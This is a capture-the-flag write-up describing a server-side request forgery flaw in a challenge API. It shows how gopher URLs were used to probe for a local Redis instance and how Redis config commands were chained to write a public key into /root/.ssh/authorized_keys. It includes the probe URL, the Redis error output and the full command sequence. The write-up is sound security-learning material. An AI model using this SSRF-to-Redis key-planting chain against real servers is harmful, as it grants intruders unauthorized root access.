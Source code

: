 This means the server is vulnerable to SSRF.

> Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing. 

**Note**: This was as far as I got during the actual competition. These next bits are from a later session. Also this is all new to me, I thought this was a RFI vulnerability, oops. 😬
 
I figured out there was also a redis instance running locally by randomly testing every single different ports, from the below list (which is the wrong way to do it):
```
https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
```

The "proper" way to do it is use curl, and gopher and test different ports like so:
```
http://cryptodb.dogedays.ca:3000/api/v1/get/gopher%3A%2F%2Flocalhost:<PORT>
```

> Gopher is protocol designed for distributing, searching, and retrieving documents in IP networks. The gopher protocol is commonly used for SSRF.

> Gopher does not have a default port, so you can use the port of the target application, and it will send requests, and retrieve responses from the target.

To recognize the server is running redis we could expect to see something like this in the response.
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
After testing many variations of the Redis SSRF RCE exploit, and finding none to work (and also the fact that the goal of the challenge is to find a private key), we can conclude that the SSH exploit is the right one.

Using the `RCE via authorized_keys` example in https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/

**The attack works like this**:
- If we know the name of a user on the server, we could set the Redis's dir to the user's `.ssh/` dir, and set the dbfilename to `authorized_keys`
- We use `%0D%0A` to issue multiple commands in a single commands
- `config set` allows you to change the redis config w/o having to restart the service
- use the `SET` command to get Redis to save our public key to its memory
- use the `SAVE` command to write the public key to the `authorized_keys` file.

Here are the commands used in the exploit:
```bash
flushall
set 1 <public key>  #set key 1 to public key, so when it is dumped it will be written to authorized keys
config set dir /root/.ssh/  # Change the redis db location
config set dbfilename authorized_keys # Change the name of the database dump file that Redis will produce after runnng save
save
```
